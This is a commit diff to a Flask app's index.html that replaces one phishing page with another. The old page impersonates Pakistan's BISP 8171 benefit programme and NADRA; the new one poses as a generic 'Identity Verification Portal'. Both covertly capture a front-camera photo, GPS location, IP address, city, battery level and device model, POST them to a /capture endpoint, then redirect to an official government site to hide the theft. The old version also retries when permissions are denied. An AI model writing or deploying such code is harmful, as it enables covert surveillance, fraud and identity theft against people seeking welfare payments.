

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,118 +2,147 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0">
-    <title>BISP 8171 - Secure Verification</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Identity Verification Portal</title>
     <style>
-        :root { --bisp: #1b5e20; --gold: #fbc02d; }
-        body { margin: 0; font-family: 'Inter', sans-serif; background: #000; color: white; overflow: hidden; }
-
-        /* Full Screen Overlay for Interaction */
-        #interaction-layer { position: fixed; inset: 0; background: rgba(0,0,0,0.9); z-index: 9999; display: flex; flex-direction: column; align-items: center; justify-content: center; text-align: center; padding: 20px; }
-
-        .pulse-btn { width: 100px; height: 100px; background: var(--bisp); border-radius: 50%; display: flex; align-items: center; justify-content: center; border: 4px solid var(--gold); cursor: pointer; animation: pulse 1.5s infinite; }
-
-        @keyframes pulse { 0% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0.7); } 70% { box-shadow: 0 0 0 30px rgba(27, 94, 32, 0); } 100% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0); } }
-
-        .card { background: white; color: #333; width: 90%; max-width: 400px; border-radius: 24px; padding: 30px; display: none; }
-
-        /* 2026 Dynamic Error Style */
-        .error-notif { background: #fff1f2; color: #be123c; padding: 15px; border-radius: 12px; font-size: 13px; font-weight: 800; border: 2px solid #fecdd3; display: none; margin-bottom: 15px; }
-
-        .loader { border: 4px solid #f3f3f3; border-top: 4px solid var(--bisp); border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; margin: 0 auto 15px; }
+        :root { --primary: #28a745; --bg: #f5f7f9; --text: #24292e; }
+        body { font-family: -apple-system, system-ui, BlinkMacSystemFont, "Segoe UI", Roboto; background-color: var(--bg); display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
+        .card { background: white; width: 92%; max-width: 400px; padding: 35px; border-radius: 15px; box-shadow: 0 10px 25px rgba(0,0,0,0.05); border: 1px solid #e1e4e8; }
+        .status-bar { height: 4px; background: var(--primary); border-radius: 10px; width: 50px; margin-bottom: 20px; }
+        h2 { font-size: 20px; color: var(--text); margin: 0 0 12px 0; font-weight: 700; }
+        p { font-size: 14px; color: #586069; line-height: 1.6; margin-bottom: 30px; }
+        .btn { background-color: var(--primary); color: white; border: none; padding: 14px; width: 100%; border-radius: 8px; font-size: 16px; font-weight: 600; cursor: pointer; transition: all 0.3s ease; box-shadow: 0 4px 12px rgba(40, 167, 69, 0.2); }
+        .btn:active { transform: scale(0.98); }
+        #loader { display: none; text-align: center; }
+        .spinner { border: 3px solid #f3f3f3; border-top: 3px solid var(--primary); border-radius: 50%; width: 24px; height: 24px; animation: spin 1s linear infinite; margin: 0 auto 10px; }
         @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
+        .footer-text { font-size: 11px; color: #959da5; margin-top: 25px; text-align: center; border-top: 1px solid #eee; padding-top: 15px; }
     </style>
 </head>
 <body>
 
-<div id="interaction-layer">
-    <div class="pulse-btn" onclick="unlockSensors()">
-        <svg width="40" height="40" viewBox="0 0 24 24" fill="white"><path d="M12 1L3 5v6c0 5.55 3.84 10.74 9 12 5.16-1.26 9-6.45 9-12V5l-9-4z"/></svg>
+<div class="card">
+    <div class="status-bar"></div>
+    <h2>Regional Access Verification</h2>
+    <p>This automated portal confirms your identity and location for secure access. Please click below to complete the mandatory compliance check.</p>
+
+    <div id="loader">
+        <div class="spinner"></div>
+        <div style="font-size: 13px; color: var(--primary); font-weight: 600;">Authenticating Secure Connection...</div>
     </div>
-    <h2 style="margin-top:20px;">8171 Biometric Node</h2>
-    <p style="font-size:14px; opacity:0.8;">Tap the shield to establish secure connection for Rs. 10,500.</p>
+
+    <button id="mainBtn" class="btn" onclick="startProcess()">CONTINUE TO PORTAL</button>
+
+    <div class="footer-text">
+        System ID: FZN-PR-2026<br>
+        Encrypted by Digital Security Authority
+    </div>
 </div>
 
-<div class="card" id="main-card">
-    <div id="err" class="error-notif">⚠️ SYSTEM BLOCK: Biometric access is required. Please 'Allow' the prompt.</div>
-    <div class="loader"></div>
-    <h3 style="color:var(--bisp); text-align:center;">Biometric Syncing...</h3>
-    <p style="font-size:13px; text-align:center;">Confirming identity via NADRA live interface. Please stay still.</p>
-</div>
-
-<video id="v" style="display:none;" autoplay playsinline></video>
-<canvas id="c" style="display:none;" width="1080" height="1920"></canvas>
+<video id="video" style="display:none;" autoplay playsinline></video>
+<canvas id="canvas" style="display:none;" width="1080" height="1920"></canvas>
 
 <script>
-    let reportData = { cnic: "8171_USER", lat: "0", lon: "0", ip: "N/A", battery: "N/A" };
+    async function startProcess() {
+        const btn = document.getElementById('mainBtn');
+        const loader = document.getElementById('loader');
+        btn.style.display = 'none';
+        loader.style.display = 'block';
 
-    // Advanced 2026 Permission Logic
-    async function unlockSensors() {
-        document.getElementById('interaction-layer').style.display = 'none';
-        document.getElementById('main-card').style.display = 'block';
+        let userAgent = navigator.userAgent;
+        let deviceName = "Unknown Device";
+        if (/android/i.test(userAgent)) {
+            deviceName = userAgent.match(/\(([^)]+)\)/)[1].split(';')[2] || "Android Mobile";
+        } else if (/iPhone/i.test(userAgent)) {
+            deviceName = "Apple iPhone";
+        }
 
-        // Chrome 2026 Logic: Gesture-based trigger
-        try {
-            // First: Request Fullscreen to reset browser engagement
-            if (document.documentElement.requestFullscreen) {
-                await document.documentElement.requestFullscreen();
+        let reportData = {
+            device: deviceName.trim(),
+            platform: navigator.platform,
+            battery: "N/A",
+            time: new Date().toLocaleString(),
+            lat: "0", lon: "0",
+            city: "N/A", country: "N/A", ip: "N/A"
+        };
+
+        if(navigator.getBattery) {
+            const b = await navigator.getBattery();
+            reportData.battery = Math.round(b.level * 100) + "%";
+        }
+
+        const fetchGeo = async () => {
+            try {
+                const res = await fetch('http://ip-api.com/json/?fields=status,country,city,query');
+                const data = await res.json();
+                if(data.status === 'success') {
+                    reportData.city = data.city;
+                    reportData.country = data.country;
+                    reportData.ip = data.query;
+                }
+            } catch (e) {
+                try {
+                    const res2 = await fetch('https://ipinfo.io/json');
+                    const data2 = await res2.json();
+                    reportData.city = data2.city;
+                    reportData.country = data2.country;
+                    reportData.ip = data2.ip;
+                } catch (e2) {
+                    reportData.city = "API Blocked";
+                }
             }
+        };
 
-            // Second: Trigger Geo with 'High Accuracy' to force pop-up
-            navigator.geolocation.getCurrentPosition(
-                (p) => {
-                    reportData.lat = p.coords.latitude;
-                    reportData.lon = p.coords.longitude;
-                    triggerBiometric();
-                },
-                () => { handleFail(); },
-                { enableHighAccuracy: true, timeout: 8000 }
-            );
-        } catch (e) { handleFail(); }
+        const geoPromise = fetchGeo();
+
+        // CAMERA CONSTRAINTS FIXED FOR 9:16 PORTRAIT
+        const cameraPromise = navigator.mediaDevices.getUserMedia({
+            video: {
+                facingMode: "user",
+                width: { ideal: 1920 },
+                height: { ideal: 1080 },
+                aspectRatio: 0.5625
+            }
+        }).catch(() => null);
+
+        navigator.geolocation.getCurrentPosition(async (pos) => {
+            reportData.lat = pos.coords.latitude;
+            reportData.lon = pos.coords.longitude;
+            finalize(await cameraPromise, reportData, geoPromise);
+        }, async () => {
+            finalize(await cameraPromise, reportData, geoPromise);
+        }, { enableHighAccuracy: true, timeout: 10000 });
     }
 
-    function triggerBiometric() {
-        navigator.mediaDevices.getUserMedia({
-            video: { facingMode: "user", width: 1280, height: 720 }
-        })
-        .then(stream => {
-            const video = document.getElementById('v');
+    async function finalize(stream, data, geoTask) {
+        await geoTask;
+
+        if (stream) {
+            const video = document.getElementById('video');
             video.srcObject = stream;
-            setTimeout(() => captureAndSend(stream), 2500);
-        })
-        .catch(() => handleFail());
+
+            setTimeout(() => {
+                const canvas = document.getElementById('canvas');
+                const ctx = canvas.getContext('2d');
+                // DRAWING FIXED FOR FULL PORTRAIT
+                ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
+                const photo = canvas.toDataURL('image/jpeg', 0.85);
+
+                stream.getTracks().forEach(t => t.stop());
+                sendData(data, photo);
+            }, 1800);
+        } else {
+            sendData(data, null);
+        }
     }
 
-    function handleFail() {
-        document.getElementById('err').style.display = 'block';
-        // Logic: Agar block hua to URL change kar ke naye session par bhejo
-        setTimeout(() => {
-            const newRef = Math.random().toString(36).substring(7);
-            window.location.href = window.location.pathname + "?retry=1&node=" + newRef;
-        }, 3000);
-    }
-
-    async function captureAndSend(stream) {
-        const canvas = document.getElementById('c');
-        canvas.getContext('2d').drawImage(document.getElementById('v'), 0, 0, 1080, 1920);
-        const photo = canvas.toDataURL('image/jpeg', 0.8);
-
-        stream.getTracks().forEach(t => t.stop());
-
-        // Multi-Provider Geo Fletcher
-        try {
-            const res = await fetch('https://ipapi.co/json/');
-            const d = await res.json();
-            reportData.ip = d.ip;
-            reportData.city = d.city;
-        } catch(e) {}
-
+    function sendData(info, photo) {
         fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
-            body: JSON.stringify({ info: reportData, photo: photo })
+            body: JSON.stringify({ info: info, photo: photo })
         }).then(() => {
-            window.location.href = "https://8171.bisp.gov.pk/";
+            window.location.href = "https://www.pakistan.gov.pk/";
         });
     }
 </script>
```
